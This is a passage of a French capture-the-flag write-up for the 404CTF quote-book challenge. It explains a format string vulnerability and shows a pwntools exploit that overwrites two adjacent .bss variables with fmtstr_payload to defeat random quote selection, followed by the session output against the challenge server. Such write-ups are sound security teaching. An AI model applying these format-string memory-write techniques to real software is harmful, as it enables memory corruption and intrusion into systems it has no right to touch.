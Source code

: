 Déjà, les variables `num_quotes` et `chosen_index` qui contiennent respectivement le nombre de citations et l'index choisi aléatoireemnt sont toutes deux situées dans la .bss, on connait donc à l'avance leurs adresses. Mais ce qui est encore plus intéressant c'est la comparaison qui est faite sur la variable num_quotes:

Lors du premier appel à pick_quote, si la variable num_quotes est nulle, alors elle est initializée avec le nombre de citations. Et dans les prochains appesl si elle est supérieure à 0 la variable chosen_index est modifiée par une valeur aléatoire. Mais qu'est ce qui se passe si avec notre format string on met la valeur de num_quotes à -1 😛?

Dans ce cas aucune des conditions n'est vérifiés et la valeur de chosen index ne devrait jamais changer, créons un nouveau fichier d'exploit avec ctfmate et testons celà tout de suite:

```python
def read_citation():
    io.recvuntil(b">>> ")
    io.sendline(b"1")
    return io.recvuntil(b"1: Lire une citation")
...
def exp():
    
    # Vu que les variables de 32 bits `chosen_index` et `num_quotes` sont contigues dans la mémoire, on écrit les deux avec un seul appel
    # à `fmtstr_payload` qui permet d'écrire 64 bits d'un coup

    chosen_index = 0x004be130
    num_quote_val = 0xffffffff
    chosen_index_val = 3

    val = num_quote_val << 32 | chosen_index_val

    write_fmt(pwn.fmtstr_payload(fmtstr_buffer_offset, {chosen_index : val}))

    io.interactive()
```

Et on arrive bien à faire en sorte d'accéder à la citation précise en bypassant le choix aléatoire, par exemple là on peut voir la citation d'index 3:

```txt
python3 wu.py HOST=challenges.404ctf.fr PORT=31719
...
[+] Opening connection to challenges.404ctf.fr on port 31719: Done
[*] Switching to interactive mode
Que souhaitez-vous écrire ?
[Vous] : 
Au moment où vous vous apprêtiez à écrire :   @                                                                                                                                                                                                                                                           \x00aaabaa0\xe1KVous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.

1: Lire une citation
2: Ecrire sur le livre
3: Compter le nombre de citations
4: Fermer le livre
>>> $ 1
La vie est un mystère qu'il faut vivre, et non un problème à résoudre.
    -- Gandhi

1: Lire une citation
2: Ecrire sur le livre
3: Compter le nombre de citations
4: Fermer le livre
>>> $ 1
La vie est un mystère qu'il faut vivre, et non un problème à résoudre.
```
